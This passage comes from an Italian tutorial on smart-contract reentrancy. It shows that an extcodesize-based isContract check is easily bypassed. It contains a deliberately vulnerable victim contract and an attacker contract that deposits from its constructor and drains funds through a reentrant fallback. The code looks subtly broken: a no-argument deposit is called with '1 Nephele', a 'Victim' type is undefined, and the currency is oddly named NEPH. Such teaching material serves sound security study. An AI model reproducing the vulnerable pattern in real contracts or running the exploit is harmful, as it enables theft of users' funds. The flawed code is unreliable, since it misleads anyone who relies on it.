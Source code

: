 Si potrebbe pensare di difendersi dal codice rientrante semplicemente impedendo a qualsiasi Smart Contract di interagire con il proprio codice. Se cerchi stackoverflow, trovi questo frammento di codice con tantissimi voti a favore:

```solidity
function isContract(address addr) internal returns (bool) {
  uint size;
  assembly { size := extcodesize(addr) }
  return size > 0;
}
```

Sembra avere senso: i contratti hanno codice, se il chiamante ha un codice, non si consente di depositare. Aggiungiamolo:

```solidity
// QUESTO CONTRATTO CONTIENE VULNERABILITA' INTENZIONALI, NON COPIARE
contract ContractCheckVictim {
    mapping (address => uint256) public balances;

    function isContract(address addr) internal returns (bool) {
        uint size;
        assembly { size := extcodesize(addr) }
        return size > 0;
    }

    function deposit() external payable {
        require(!isContract(msg.sender)); // <- NUOVA LINEA
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        (bool success, ) = msg.sender.call.value(amount)("");
        require(success);
        balances[msg.sender] = 0;
    }
}
```

Per depositare NEPH, non bisogna avere codice di Smart Contract al proprio indirizzo. A questo però si può facilmente ovviare con il seguente contratto di Attacker:

```solidity
contract ContractCheckAttacker {
    constructor() public payable {
        ContractCheckVictim(VICTIM_ADDRESS).deposit(1 Nephele); // <- Nuova linea
    }

    function beginAttack() external payable {
        ContractCheckVictim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
   }
}
```

